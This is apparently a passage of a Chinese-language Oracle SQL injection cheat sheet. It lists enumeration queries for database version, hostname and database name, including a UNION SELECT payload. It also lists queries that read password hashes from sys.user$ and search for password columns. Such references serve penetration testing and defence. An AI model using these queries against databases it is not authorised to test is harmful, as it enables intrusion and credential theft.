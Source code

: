 | 描述           | SQL查询                                           |
| --------------- | ------------------------------------------------- |
| 数据库版本      | `SELECT user FROM dual UNION SELECT * FROM v$version` |
| 数据库版本      | `SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';` |
| 数据库版本      | `SELECT banner FROM v$version WHERE banner LIKE 'TNS%';` |
| 数据库版本      | `SELECT BANNER FROM gv$version WHERE ROWNUM = 1;` |
| 数据库版本      | `SELECT version FROM v$instance;`                  |
| 主机名          | `SELECT UTL_INADDR.get_host_name FROM dual;`        |
| 主机名          | `SELECT UTL_INADDR.get_host_name('10.0.0.1') FROM dual;` |
| 主机名          | `SELECT UTL_INADDR.get_host_address FROM dual;`     |
| 主机名          | `SELECT host_name FROM v$instance;`                |
| 数据库名称      | `SELECT global_name FROM global_name;`              |
| 数据库名称      | `SELECT name FROM V$DATABASE;`                      |
| 数据库名称      | `SELECT instance_name FROM V$INSTANCE;`             |
| 数据库名称      | `SELECT SYS.DATABASE_NAME FROM DUAL;`               |
| 数据库名称      | `SELECT sys_context('USERENV', 'CURRENT_SCHEMA') FROM dual;` |

## Oracle SQL数据库凭据

| 查询                                   | 描述               |
|---------------------------------------|-------------------|
| `SELECT username FROM all_users;`     | 所有版本可用     |
| `SELECT name, password from sys.user$;` | 特权，<= 10g     |
| `SELECT name, spare4 from sys.user$;`  | 特权，<= 11g     |

## Oracle SQL方法论

### Oracle SQL列出数据库

```sql
SELECT DISTINCT owner FROM all_tables;
SELECT OWNER FROM (SELECT DISTINCT(OWNER) FROM SYS.ALL_TABLES)
```

### Oracle SQL列出表

```sql
SELECT table_name FROM all_tables;
SELECT owner, table_name FROM all_tables;
SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE '%PASS%';
SELECT OWNER,TABLE_NAME FROM SYS.ALL_TABLES WHERE OWNER='<DBNAME>'
```
